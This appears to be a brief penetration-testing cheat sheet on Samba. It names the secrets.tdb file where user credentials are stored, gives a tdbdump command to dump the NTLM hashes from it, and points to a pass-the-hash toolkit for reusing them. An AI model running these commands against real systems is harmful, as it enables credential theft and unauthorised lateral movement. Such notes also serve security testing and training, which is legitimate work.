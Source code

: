 #### Information regarding users is stored in
	/var/lib/samba/private/secrets.tdb
#### Dump the NTLM UTF-8 encoded hashes	
	tdbdump /var/lib/samba/private/secrets.tdb

## Pass the hash
	pth-smbclient 
	https://github.com/byt3bl33d3r/pth-toolkit